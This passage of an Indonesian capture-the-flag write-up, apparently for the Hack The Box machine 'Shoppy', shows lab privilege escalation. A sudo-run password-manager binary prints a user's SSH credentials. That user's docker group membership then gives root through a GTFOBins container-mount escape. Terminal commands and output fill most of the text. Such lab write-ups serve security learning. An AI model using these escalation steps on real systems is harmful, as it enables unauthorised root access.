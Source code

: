 ### dan kita mendapatkan akses sudo untuk user deploy dan kita coba untuk menjalankan password-manager. dan kita mendapatkan informasi penting yang ada di password-manager dan membaca file "cat password-manager"
```terminal
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !

Password: Sample
```

### kita coba kembali ke sudo privilege escalation dengan menggunakan "sudo -l". dengan command dibawah
```terminal
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

### kita berpindah ke ssh yang baru dengan menggunakan username dan password yang kita dapatkan.
```terminal
┌──(root㉿yupy)-[~]
└─# ssh deploy@10.10.11.180
deploy@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ whoami
deploy
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
$ pwd
/home/deploy
```

### Privilege Escalation Post Exploitation: Root via Docker Escape menggunakan GTFOBins Docker(https://gtfobins.github.io/gtfobins/docker/) dan kita coba untuk menjalankan command dibawah
```terminal
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
```terminal
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

